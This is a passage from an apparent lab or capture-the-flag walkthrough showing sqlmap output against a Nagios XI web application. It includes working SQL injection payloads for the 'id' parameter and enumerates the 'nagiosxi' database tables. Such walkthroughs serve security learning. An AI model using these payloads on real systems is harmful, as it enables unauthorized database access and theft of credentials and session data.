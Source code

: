```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (9241=9241) THEN 3 ELSE (SELECT 4760 UNION SELECT 9627) END))&token=6f84be4a5d3011d28222777d799b492ff2d1f1e7

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 3477 FROM(SELECT COUNT(*),CONCAT(0x716b706271,(SELECT (ELT(3477=3477,1))),0x7171766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&token=6f84be4a5d3011d28222777d799b492ff2d1f1e7

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=acknowledge_banner_message&id=3 AND (SELECT 1640 FROM (SELECT(SLEEP(5)))QyfG)&token=6f84be4a5d3011d28222777d799b492ff2d1f1e7
---
[17:53:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:53:27] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[17:53:27] [INFO] fetching current database
[17:53:27] [INFO] retrieved: 'nagiosxi'
[17:53:27] [INFO] fetching tables for database: 'nagiosxi'
[17:53:27] [INFO] fetching columns for table 'xi_cmp_trapdata' in database 'nagiosxi'
[17:53:28] [INFO] retrieved: 'trapdata_id'
[17:53:28] [INFO] retrieved: 'int(11)'
```

We can't dump the whole database because there are way too many entries; it would be a waste of time. Let's dump all the tables with the --tables flag:

```
[17:54:45] [INFO] fetching tables for database: 'nagiosxi'
Database: nagiosxi
[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+
```